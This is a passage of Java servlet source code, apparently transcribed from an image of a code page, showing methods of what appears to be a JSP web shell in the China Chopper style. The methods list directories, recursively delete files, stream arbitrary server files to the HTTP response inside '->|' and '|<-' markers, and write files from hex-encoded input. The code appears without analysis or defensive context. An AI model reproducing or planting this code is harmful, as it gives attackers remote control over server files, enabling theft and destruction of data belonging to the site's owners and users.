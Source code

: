 ```
        }
    }
    void BB(String s, StringBuffer sb) throws Exception {
        File oF = new File(s), l[] = oF.listFiles();
        String sT, sQ, sF = "";
        java.util.Date dt;
        SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
        for (int i = 0; i < l.length; i++) {
            dt = new java.util.Date(l[i].lastModified());
            sT = fm.format(dt);
            sQ = l[i].canRead() ? "R" : "";
            sQ += l[i].canWrite() ? " W" : "";
            if (l[i].isDirectory()) {
                sb.append(l[i].getName() + "/\t" + sT + "\t" + l[i].length()
                        + "\t" + sQ + "\n");
            } else {
                sF += l[i].getName() + "\t" + sT + "\t" + l[i].length() + "\t"
                        + sQ + "\n";
            }
        }
        sb.append(sF);
    }
    void EE(String s) throws Exception {
        File f = new File(s);
        if (f.isDirectory()) {
            File x[] = f.listFiles();
            for (int k = 0; k < x.length; k++) {
                if (!x[k].delete()) {
                    EE(x[k].getPath());
                }
            }
        }
        f.delete();
    }
    void FF(String s, HttpServletResponse r) throws Exception {
        int n;
        byte[] b = new byte[512];
        r.reset();
        ServletOutputStream os = r.getOutputStream();
        BufferedInputStream is = new BufferedInputStream(new FileInputStream(s));
        os.write(("->" + "|").getBytes(), 0, 3);
        while ((n = is.read(b, 0, 512)) != -1) {
            os.write(b, 0, n);
        }
        os.write(("|" + "<-").getBytes(), 0, 3);
        os.close();
        is.close();
    }
    void GG(String s, String d) throws Exception {
        String h = "0123456789ABCDEF";
        int n;
        File f = new File(s);
        f.createNewFile();
        FileOutputStream os = new FileOutputStream(f);
        for (int i = 0; i < d.length(); i += 2) {
            os
                    .write((h.indexOf(d.charAt(i)) << 4 | h.indexOf(d
                            .charAt(i + 1))));
        }
        os.close();
    }
    void HH(String s, String d) throws Exception {
        File sf = new File(s), df = new File(d);
```